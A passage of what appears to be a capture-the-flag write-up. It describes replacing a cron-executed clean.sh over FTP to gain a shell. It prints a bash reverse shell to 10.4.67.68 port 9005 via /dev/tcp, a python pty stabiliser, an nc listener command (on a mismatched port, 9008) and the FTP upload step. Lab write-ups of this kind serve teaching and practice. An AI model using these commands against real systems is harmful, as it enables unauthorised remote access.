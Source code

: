 ![](https://i.imgur.com/th0dtuf.png)

on opening all files we get 

to_do.txt

![](https://i.imgur.com/w5LPfAm.png)


remove_file.log

![](https://i.imgur.com/oPn1V36.png)


clean.sh

![](https://i.imgur.com/1YlBOwM.png)

on thinking we can deduce that a cron job is running on server that is running on server .

Lets replace *clean.sh* with our new clean.sh in which we will send a reverse shell from [pentesting monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and a [shell stabilizer](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

*reverse shell*
[](https://i.imgur.com/iBGQwcz.png)


*Shell stabilizer*
![](https://i.imgur.com/hwr2Dl9.png)


#### New *clean.sh*

![](https://i.imgur.com/KIwi1On.png)


```
#!/bin/bash

bash -i >& /dev/tcp/10.4.67.68/9005 0>&1


python -c 'import pty; pty.spawn("/bin/bash")'

```

now open *nc* for listing on port *9005*
```
nc -nvlp 9008
```

lets send it to ftp by ,

```
put clean.sh
```


